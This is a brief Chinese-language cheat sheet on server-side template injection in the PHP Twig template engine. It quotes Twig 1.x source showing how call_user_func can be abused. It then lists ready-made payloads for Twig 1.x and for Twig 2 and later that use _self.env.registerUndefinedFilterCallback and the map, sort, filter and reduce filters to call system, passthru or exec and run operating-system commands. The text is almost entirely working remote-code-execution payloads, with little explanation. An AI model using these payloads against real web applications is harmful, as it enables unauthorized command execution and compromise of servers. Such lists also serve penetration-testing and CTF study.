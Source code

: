 #### Twig-1.x

`getFilter`函数：

```php
public function getFilter($name)
  {
    ...
    foreach ($this->filterCallbacks as $callback) {
    if (false !== $filter = call_user_func($callback, $name)) {
    //出现call_user_func
      return $filter;
    }
  }
  return false;
}

public function registerUndefinedFilterCallback($callable)
{
  $this->filterCallbacks[] = $callable;
}
```

利用这个可以构造

> 在Twig 1.x中:**`_self`**：当前模板对象，可以用于调用当前模板中的宏（macro）

```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("[Command]")}}
```



#### Twig-2以及更高版本

Payload：

```twig
{{["id"]|map("system")}}
{{["id"]|map("passthru")}}
{{["id"]|map("exec")}}    // 无回显

{{["id", 0]|sort("system")}}
{{["id", 0]|sort("passthru")}}
{{["id", 0]|sort("exec")}}    // 无回显

{{["id"]|filter("system")}}
{{["id"]|filter("passthru")}}
{{["id"]|filter("exec")}}    // 无回显

{{[0, 0]|reduce("system", "id")}}
{{[0, 0]|reduce("passthru", "id")}}
{{[0, 0]|reduce("exec", "id")}}    // 无回显
```


